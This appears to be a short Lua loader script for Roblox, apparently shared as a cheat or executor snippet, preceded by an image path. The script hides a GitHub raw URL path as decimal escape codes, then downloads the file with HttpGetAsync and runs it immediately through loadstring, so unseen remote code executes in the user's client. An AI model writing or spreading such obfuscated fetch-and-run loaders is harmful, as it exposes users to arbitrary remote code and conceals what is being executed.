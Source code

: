 local script
script='\47\89\90\88\87\65\78\47\72\79\78\71\95\100\101\118\101\108\111\112\47\109\97\105\110\47\37\69\54\37\56\56\37\57\49\37\69\54\37\57\56\37\65\70\37\69\53\37\65\53\37\66\51\37\69\53\37\65\68\37\65\57\46\116\120\116'
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com"..script))()
